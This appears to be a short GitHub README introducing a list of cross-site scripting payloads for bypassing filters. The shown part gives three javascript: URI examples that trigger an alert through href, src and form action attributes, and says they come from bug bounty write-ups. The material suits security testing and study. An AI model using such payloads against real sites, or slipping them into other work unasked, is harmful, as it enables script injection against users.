 # Markdown-XSS
List of XSS Payloads With Filter Bypass

If user input value directly reflected on href or src attribute at time it's worth to try this different XSS payloads. All payload are very effective and most of time it's works, you can use this payload in href, src and action attribute. This all payloads are collected from various sources such as bug bounty write ups and twitter.

## Example :- 
```html
<a href="javascript:alert(/XSS/)">click</a>
<iframe src="javascript:alert(/XSS/)"></iframe>
<form action="javascript:alert(/XSS/)"></form>
```



